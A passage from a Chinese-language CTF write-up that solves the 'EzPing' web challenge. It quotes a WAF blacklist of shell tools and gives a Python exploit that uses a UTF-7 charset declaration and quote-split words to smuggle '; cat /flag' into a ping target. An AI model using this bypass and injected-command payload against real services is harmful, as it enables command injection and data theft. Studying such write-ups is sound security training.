


# Mini L-CTF 2026 web类个人题解

## 1. EzPing：

题目描述为“这么简单？这不是一眼命令注入吗？”，

浏览器查看前端源码发现提示注释：

```js
// 默认的 fetch 请求会发送标准的 UTF-8 JSON，这会被服务端的裸字节 WAF 拦截恶意 payload
```



在@app.before_request的中间件waf_middleware()查看WAF逻辑为拦截包含黑名单中的子串的原始字节数据

黑名单：

```python
b'flag', b'cat', b'ls', b'bash', b'sh', b'nc',
b';', b'|', b'&', b'$', b'>', b'<', b'`', b'\n', b'\\'
```

想办法绕过黑名单：由app.py的逻辑分析可知，漏洞在于：

“WAF 检查的是原始字节流，业务代码处理的是按 charset 解码后的字符串”

据此构造攻击脚本exploit.py：

```python
import requests

url = "http://127.0.0.1:58813/api/ping"

# 使用 UTF-7 编码分号为 +ADs- ，cat 和 flag 用 '' 拆分
# 内部的单引号需要转义，整体用双引号包裹 JSON
data_str = '{"target": "127.0.0.1+ADs- c\'\'at /f\'\'lag"}'

# 发送 ASCII 字节，但声明 charset=utf-7
headers = {
    'Content-Type': 'application/json; charset=utf-7'
}

resp = requests.post(url, data=data_str.encode('utf-8'), headers=headers)
print("Status:", resp.status_code)
print("Response:", resp.text)
```

这里有两个细节：

1. +ADs- 在 UTF-7 解码后会变成 ;

2. c''at 和 f''lag 在shell中会被视作 cat、flag

因此：

- WAF 看到的是 +ADs-，不是 ;

- WAF 看到的是 c''at、f''lag，不是连续的 cat、flag

- Flask 按 utf-7 解码后得到：{"target": "127.0.0.1; c''at /f''lag"}

- shell 执行时，空引号被拼接消解，实际命令等价于：127.0.0.1; cat /flag

执行exploit.py可得flag：


